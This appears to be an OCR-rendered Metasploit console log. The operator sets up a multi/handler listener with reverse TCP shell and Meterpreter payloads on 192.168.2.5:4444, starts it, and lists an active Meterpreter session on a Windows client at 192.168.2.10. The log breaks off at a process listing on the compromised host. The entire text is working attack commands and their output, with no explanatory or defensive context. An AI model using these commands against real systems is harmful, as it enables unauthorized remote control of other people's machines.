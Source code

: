 ```shell
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.5      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp_allports 
payload => windows/meterpreter/reverse_tcp_allports
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp_allports):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The starting port number to connect back on


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > exploit -j
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x86/windows  Client-PC\Client @ CLIENT-PC  192.168.2.5:4444 -> 192.168.2.10:49197  (192.16
                                                                   8.2.10)
                                                                   
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User              Path
 ---   ----  ----               ----  -------  ----              ----
 0     0     [System Process]
```